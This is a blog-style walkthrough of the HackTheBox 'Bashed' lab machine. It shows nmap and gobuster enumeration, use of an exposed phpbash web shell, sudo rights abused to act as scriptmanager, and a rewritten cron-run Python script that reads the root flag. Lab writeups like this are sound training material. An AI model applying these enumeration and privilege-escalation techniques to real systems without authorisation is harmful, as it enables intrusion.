 ```yaml
---
layout: post
title: HackTheBox Bashed (10.10.10.68) Writeup
description: >
  Hackthebox Bashed Writeup
image: /assets/img/bashed.png
---
```


<center><h3>Summary</h3></center>

- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag

First I start with an nmap scan
``` 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the webpage I see a nice custom webpage. A quick look aorund does reveal anything obvious

![home.png](../../resources/babe181301b2462383c3d75b7bcb6c3b.png)

Running a gobuster reveals some directories.
```bash
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory I will see two files. <b>phpbash.min.php</b> and <b>phpbash.php</b> 

![dev.png](../../resources/fd190a94f4c944a6a1ff0e47e4d8bb77.png)

Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> I see that the I can run sudo asa the user <b>scriptmanager</b>.

```bash
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> I can see there are two files in there but I are unable to read them. This is where I will use scriptmanagers sudo priviledges

```python
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files I can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What I are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so I can then read it. This can be achieved with the short script below
```python
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now I wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
